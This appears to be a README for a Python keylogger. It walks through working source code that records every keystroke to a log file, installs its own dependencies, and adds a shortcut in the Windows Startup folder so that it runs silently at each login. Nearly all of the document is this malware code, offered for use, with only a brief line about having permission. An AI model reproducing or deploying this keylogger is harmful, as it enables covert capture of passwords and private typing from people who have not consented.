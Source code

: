 

Python Keylogger Documentation
Overview
This Python keylogger captures keystrokes and logs them into a file. It is designed to run in the background and can automatically start with the operating system. The captured keystrokes are saved in a file named key_log.log.

Prerequisites
Before running the keylogger, ensure you have the following libraries installed:

pynput: For capturing keyboard events.
plyer: For displaying notifications (if desired).
pywin32: For creating Windows shortcuts.
If these libraries are not installed, the keylogger will attempt to install them automatically.

Installation
Ensure Python is installed on your system.
Download the script and save it as keylogger.py.
Run the script using Python:
bash
Copy code
python keylogger.py
The script will check for required packages and install any that are missing.

Usage
Once the script is running, it will capture all keyboard inputs until the "Escape" key is pressed. The logged keystrokes will be saved in key_log.log in the same directory as the script.

Automatic Startup
The keylogger creates a shortcut in the Windows Startup folder, ensuring it runs automatically whenever the user logs into Windows.

Code Explanation
Imports and Package Installation
python
Copy code
import subprocess
import sys
import os
import win32com.client  

def install(package):
    subprocess.check_call([sys.executable, "-m", "pip", "install", package])
subprocess: Used for executing system commands.
sys: Provides access to system-specific parameters and functions.
os: Used for interacting with the operating system.
win32com.client: Used for creating Windows shortcuts.
Library Import and Installation
python
Copy code
try:
    from pynput.keyboard import Key, Listener
    from plyer import notification
except ImportError:
    list1 = ['tkinter', 'pynput', 'plyer', 'pywin32']
    for i in list1:
        install(i)
This section attempts to import necessary libraries. If any library is missing, it installs them.

Logging Mechanism
python
Copy code
log_file = "key_log.log"
log_content = ""

def on_press(key):
    global log_content
    try:
        if key.char: 
            log_content += key.char  
    except AttributeError:
        if key == Key.backspace:
            log_content = log_content[:-1] 
        else:
            log_content += f" {key} "

    with open(log_file, "w") as f: 
        f.write(log_content)
log_file: Specifies the name of the log file.
log_content: A string that holds the recorded keystrokes.
on_press: A callback function triggered when a key is pressed. It appends the pressed key to log_content and writes it to log_file.
Key Release Handling
python
Copy code
def on_release(key):
    if key == Key.esc:
        return False
on_release: A callback function triggered when a key is released. If the "Escape" key is pressed, it stops the listener.
Creating a Startup Shortcut
python
Copy code
def create_startup_shortcut():
    keylogger_path = os.path.join(os.path.dirname(sys.executable), "dist", "keylogger.exe")

    startup_folder = os.path.join(os.getenv("APPDATA"), "Microsoft", "Windows", "Start Menu", "Programs", "Startup")

    shell = win32com.client.Dispatch("WScript.Shell")
    shortcut = shell.CreateShortCut(os.path.join(startup_folder, "Keylogger.lnk"))
    shortcut.TargetPath = keylogger_path
    shortcut.WorkingDirectory = os.path.dirname(keylogger_path)
    shortcut.save()

create_startup_shortcut()
create_startup_shortcut: Creates a Windows shortcut to ensure the keylogger runs at startup.
Main Listener
python
Copy code
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
Listener: A context manager that listens for keyboard events. It calls on_press and on_release as keys are pressed and released, respectively.
Important Notes
Ensure that you have permission to run a keylogger on the system.
Misuse of this software can lead to legal consequences. Use it responsibly and ethically.

